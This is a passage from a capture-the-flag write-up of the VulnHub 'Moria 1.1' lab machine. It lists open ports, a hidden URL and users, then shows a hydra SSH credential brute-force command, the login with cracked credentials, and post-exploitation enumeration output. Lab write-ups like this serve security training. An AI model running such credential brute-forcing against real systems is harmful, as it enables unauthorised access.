 ![writeup.enumeration.steps.10.1](Box%20Write-ups/vulnhub.moria11/screenshot10.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
21/tcp  |  ftp   |  vsftpd 2.0.8 or later
22/tcp  |  ssh   |  OpenSSH 6.6.1 (protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
```
#### Files
``` {.python .numberLines}
http://192.168.92.188/QlVraKW4fbIkXau9zkAPNGzviT3UKntl
```
#### Users
``` {.python .numberLines}
ftp: Balrog
```

\newpage
## Phase #2: Exploitation
1\. We are able to successfully crack hashes for all users from this list and can now use `hydra` to check which username/password combo actually works. We find that the `Ori/spanky` credentials allow us SSH access to the target system:  
``` {.python .numberLines}
hydra -C creds 192.168.92.188 -t 4 ssh
ssh Ori@192.168.92.188

```

![writeup.exploitation.steps.1.1](Box%20Write-ups/vulnhub.moria11/screenshot11.png)  

![writeup.exploitation.steps.1.2](Box%20Write-ups/vulnhub.moria11/screenshot12.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
Ori@Moria> id
uid=1002(Ori) gid=1003(notBalrog) groups=1003(notBalrog)
Ori@Moria>  
Ori@Moria> uname
Linux Moria 3.10.0-514.el7.x86_64 #1 SMP Tue Nov 22 16:42:41 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
Ori@Moria>  
Ori@Moria> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.188  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::deef:db78:6f77:ebdf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:84:7d:d1  txqueuelen 1000  (Ethernet)
        RX packets 125  bytes 13540 (13.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 87  bytes 11999 (11.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
Ori@Moria>  
Ori@Moria> users
abatchy
Balrog
Ori
```
